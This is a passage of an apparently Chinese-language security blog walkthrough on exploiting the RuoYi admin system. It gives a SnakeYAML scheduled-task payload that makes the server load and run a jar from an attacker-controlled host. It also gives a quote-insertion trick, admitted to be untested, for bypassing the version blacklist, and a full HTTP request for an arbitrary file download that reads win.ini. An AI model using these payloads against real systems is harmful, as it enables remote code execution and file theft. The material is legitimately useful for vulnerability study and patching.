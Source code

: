 然后就会生成一个 yaml-payload.jar的jar包
直接在yaml-payload-master目录下使用python起一个http服务。
`python3 -m http.server 5555`
然后进入若依后台，添加一个计划任务。
`org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://攻击机ip/yaml-payload.jar"]]]]')`
![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094546546-1230241888.png)
cron表达式：
`0/10 * * * * ?`
这个cron就跟linux定时任务一样,定义每天/每周/等,定时启动的时间
配置好之后,并不会启动定时任务
![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094612173-1601638054.png)
计划任务启动之后，即可执行命令mspaint(弹出画图板)
![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094720876-373421022.png)

### 版本4.6.2<=Ruoyi<4.7.2

这个版本采用了黑名单限制调用字符串

- 定时任务屏蔽ldap远程调用
- 定时任务屏蔽http(s)远程调用
- 定时任务屏蔽rmi远程调用
  ![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094748968-296191555.png)
  ypass
  咱们只需要在屏蔽的协议加上单引号,接着采用之前的方式
  例如:
  `org.yaml.snakeyaml.Yaml.load(‘!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“h’t’t’p’://127.0.0.1:88/yaml-payload.jar”]]]]’)`
  加引号
  ![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094810284-1312484057.png)
  注：这个绕过没有亲自测试，粘贴的一位师傅原图

## 若依后台任意文件下载漏洞

### 漏洞简介

若依管理系统后台存在任意文件下载漏洞。影响版本：若依管理系统4.7.6及以下版本

### 漏洞复现

漏洞利用前提：登录进后台。
首先提交一个定时任务。

```makefile
POST /monitor/job/add HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 188
Connection: close
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=61e79ae9-8cdd-4e51-baac-d269ef551df3

createBy=admin&jobName=renwu&jobGroup=DEFAULT&invokeTarget=ruoYiConfig.setProfile('c://windows/win.ini')&cronExpression=0%2F15+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```
